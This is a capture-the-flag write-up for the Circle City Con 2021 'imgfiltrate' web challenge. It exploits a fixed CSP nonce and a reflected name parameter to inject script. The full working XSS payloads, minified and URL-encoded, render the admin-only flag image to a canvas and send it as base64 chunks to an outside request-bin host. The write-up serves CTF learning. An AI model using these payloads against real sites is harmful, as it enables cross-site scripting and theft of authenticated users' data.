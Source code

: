 # Circle City Con CTF 2021 [web] imgfiltrate writeup

## Challenge

Can you yoink an image from the admin page?

App: http://35.224.135.84:3200
Admin bot: http://35.224.135.84:3201

Author: qxxxb

```
Hint! In this challenge there are two services: the web app and the admin bot.

docker-compose creates an internal network for these two services, and the web app has an internal hostname set to imgfiltrate.hub.

Note that the admin bot's cookie is set for this internal domain, not the external domain at 35.224.135.84. This means that when you submit a URL to the admin bot, you must do something like:
http://imgfiltrate.hub/<stuff>
```

## Solution

Check the source code, there is CSP settings.

`app/public/index.php`

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'none'; img-src 'self'; script-src 'nonce-70861e83ad7f1863b3020799df93e450';">
```

This site only allows images of the same origin and script tags with nonces as external resources.

We can embed any code into html with the get parameter.

`app/public/index.php`

```php
Hello <?php echo $_GET['name'] ?? 'bozo' ?>
```

Also, the CSP nonce is fixed, so you can check the xss at this URL.

```
http://35.224.135.84:3200/?name=<script nonce="70861e83ad7f1863b3020799df93e450">alert(1)</script>
```

And the purpose of the attack is an image that is only displayed when the bot accesses this site.

(The cookie "token" has the httpOnly attribute, so it cannot be retrieved by XSS.)

`app/public/flag.php`

```php
<?php

header('Content-Type: image/png');

if (isset($_COOKIE['token']) && $_COOKIE['token'] === getenv('TOKEN')) {
    $filepath = '/opt/flag.png';
} else {
    $filepath = '/opt/no_flag.png';
}

echo file_get_contents($filepath);
```

`bot/main.js`

```javascript
  await page.setCookie({
    name: 'token',
    value: process.env.TOKEN,
    domain: 'imgfiltrate.hub',
    sameSite: 'strict',
    httpOnly: true
  })

  try {
    await page.goto(url, { timeout: 5000, waitUntil: 'networkidle2' })
    await page.waitForTimeout(2000)
  } finally {
    await page.close()
    await ctx.close()
  }
```

Therefore, the attack is the following procedure

1. Create a new script tag using `document.createElement`.

2. Convert flag images to base64 data.

3. Send the image data externally with the "src" of the script tag generated in 1.

```html
  <script nonce="70861e83ad7f1863b3020799df93e450">
    // 1. Create a new script tag using `document.createElement`.
    var oScript = document.createElement("script");
    oScript.nonce = "70861e83ad7f1863b3020799df93e450";
    oScript.type = "text\/javascript";
    document.currentScript.parentNode.insertBefore(oScript, document.currentScript);
    // Wait one second for the image to load.
    setTimeout(function () {
      // 2. Convert flag images to base64 data.
      var img = document.getElementById("flag");
      var canvas = document.createElement('canvas');
      var ctx = canvas.getContext('2d');
      canvas.width = img.width;
      canvas.height = img.height;
      ctx.drawImage(img, 0, 0);
      var data = canvas.toDataURL('image/jpeg');
      var data2 = data.replace(/^.*,/, '').replace(/\//g, '-').substring(0, 5000);
      // 3. Send the image data externally with the "src" of the script tag generated in 1.
      oScript.src = `https://x.pipedream.net/?a=${data2}`;
    }, "1000");
  </script>
```

Minify this code to make it read as XSS.

```html
<script nonce="70861e83ad7f1863b3020799df93e450">var oScript = document.createElement("script");oScript.nonce = "70861e83ad7f1863b3020799df93e450";oScript.type = "text\/javascript";document.currentScript.parentNode.insertBefore(oScript, document.currentScript);setTimeout(function () {var img = document.getElementById("flag");var canvas = document.createElement('canvas');var ctx = canvas.getContext('2d');canvas.width = img.width;canvas.height = img.height;ctx.drawImage(img, 0, 0);var data = canvas.toDataURL('image/jpeg');var data2 = data.replace(/^.*,/, '').replace(/\//g, '-').substring(0, 5000);oScript.src = `https://x.pipedream.net/?a=${data2}`;},"1000");</script>
```

The image data is large and exceeds the length that can be specified in the url, so we will split it into three parts.

By sending these URLs to the bot, base64 encoded image data will be sent to the requestbin.

```
http://imgfiltrate.hub/?name=%3Cscript%20nonce=%2270861e83ad7f1863b3020799df93e450%22%3Evar%20oScript%20=%20document.createElement(%22script%22);oScript.nonce%20=%20%2270861e83ad7f1863b3020799df93e450%22;oScript.type%20=%20%22text%5C/javascript%22;document.currentScript.parentNode.insertBefore(oScript,%20document.currentScript);setTimeout(function%20()%20%7Bvar%20img%20=%20document.getElementById(%22flag%22);var%20canvas%20=%20document.createElement('canvas');var%20ctx%20=%20canvas.getContext('2d');canvas.width%20=%20img.width;canvas.height%20=%20img.height;ctx.drawImage(img,%200,%200);var%20data%20=%20canvas.toDataURL('image/jpeg');var%20data2%20=%20data.replace(/%5E.*,/,%20'').replace(/%5C//g,%20'-').substring(0,%205000);oScript.src%20=%20%60https://x.pipedream.net/?a=$%7Bdata2%7D%60;%7D,%221000%22);%3C/script%3E

http://imgfiltrate.hub/?name=%3Cscript%20nonce=%2270861e83ad7f1863b3020799df93e450%22%3Evar%20oScript%20=%20document.createElement(%22script%22);oScript.nonce%20=%20%2270861e83ad7f1863b3020799df93e450%22;oScript.type%20=%20%22text%5C/javascript%22;document.currentScript.parentNode.insertBefore(oScript,%20document.currentScript);setTimeout(function%20()%20%7Bvar%20img%20=%20document.getElementById(%22flag%22);var%20canvas%20=%20document.createElement('canvas');var%20ctx%20=%20canvas.getContext('2d');canvas.width%20=%20img.width;canvas.height%20=%20img.height;ctx.drawImage(img,%200,%200);var%20data%20=%20canvas.toDataURL('image/jpeg');var%20data2%20=%20data.replace(/%5E.*,/,%20'').replace(/%5C//g,%20'-').substring(5000,%2010000);oScript.src%20=%20%60https://x.pipedream.net/?a=$%7Bdata2%7D%60;%7D,%221000%22);%3C/script%3E

http://imgfiltrate.hub/?name=%3Cscript%20nonce=%2270861e83ad7f1863b3020799df93e450%22%3Evar%20oScript%20=%20document.createElement(%22script%22);oScript.nonce%20=%20%2270861e83ad7f1863b3020799df93e450%22;oScript.type%20=%20%22text%5C/javascript%22;document.currentScript.parentNode.insertBefore(oScript,%20document.currentScript);setTimeout(function%20()%20%7Bvar%20img%20=%20document.getElementById(%22flag%22);var%20canvas%20=%20document.createElement('canvas');var%20ctx%20=%20canvas.getContext('2d');canvas.width%20=%20img.width;canvas.height%20=%20img.height;ctx.drawImage(img,%200,%200);var%20data%20=%20canvas.toDataURL('image/jpeg');var%20data2%20=%20data.replace(/%5E.*,/,%20'').replace(/%5C//g,%20'-').substring(10000,%2015000);oScript.src%20=%20%60https://x.pipedream.net/?a=$%7Bdata2%7D%60;%7D,%221000%22);%3C/script%3E
```

We can then display this data in the following html to get the flag.

```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="utf-8">
  <title>test</title>
</head>
<body>
  <canvas id="cvs" width="500" height="200"></canvas>
  <script>
    var data = "data:image/jpeg;base64,/9j/4AAQSkZJRgA...AAAAH//2Q==";
    var cvs = document.getElementById('cvs');
    var ctx = cvs.getContext('2d');
    var img = new Image();
    img.src = data;
    img.onload = function () {
      ctx.drawImage(img, 0, 0, 500, 200);
    }
  </script>
</body>
</html>
```

```
CCC{c4nvas_b64}
```
